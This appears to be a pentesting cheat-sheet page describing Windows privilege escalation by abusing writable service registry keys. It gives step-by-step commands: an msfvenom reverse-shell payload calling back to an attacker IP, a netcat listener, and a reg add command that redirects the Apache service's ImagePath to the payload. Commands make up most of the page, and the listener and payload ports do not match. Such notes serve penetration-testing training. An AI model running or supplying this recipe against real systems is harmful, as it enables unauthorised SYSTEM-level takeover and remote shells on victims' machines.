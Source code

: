 ```yaml
---
title: insecure registry permissions
category: win privesc
order: 1
---
```


[WPE-12 - Insecure Registry Permissions](https://pentestlab.blog/2017/03/31/insecure-registry-permissions/)

## | 1 identify
The process of privilege escalation via insecure registry permissions is very simple. Registry keys for the services that are running on the system can be found in the following registry path:
```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services
```

If a standard user has permissions to modify the registry key “ImagePath” which contains the path to the application binary then he could escalate privileges to system as the Apache service is running under these privileges.

&nbsp;
&nbsp;
## | 2 compile binary
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.100.220 LPORT=4445 -f exe -o shell2.exe
```
&nbsp;
&nbsp;
## | 3 start listener
```
nc -nlvp 4444
```
&nbsp;
&nbsp;
## | 4 modify registry
The only thing that is required is to add a registry key that will change the ImagePath to the location of where the malicious payload is stored.
```
C:\Users\pentestlab\Desktop>reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Apache"
/t REG_EXPAND_SZ /v ImagePath /d "C:\xampp\shell2.exe" /f
```
&nbsp;
&nbsp;
## | 5 profit

